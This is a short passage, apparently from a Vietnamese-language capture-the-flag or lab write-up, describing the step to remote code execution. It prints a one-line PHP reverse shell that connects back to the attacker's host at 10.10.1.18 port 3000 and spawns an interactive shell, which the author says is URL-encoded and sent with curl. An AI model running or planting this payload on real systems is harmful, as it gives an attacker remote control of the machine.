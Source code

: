 ![Untitled](Untitled%2025.png)

Oh Yeah! It’s time to RCE. 

Ở đây mình sử dụng 1 con PHP reverse shell.

```php
php -r '$sock=fsockopen("10.10.1.18",3000);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Mình sẽ URL encode lại và sử dụng lệnh curl để thực thi

![Untitled](Untitled%2026.png)
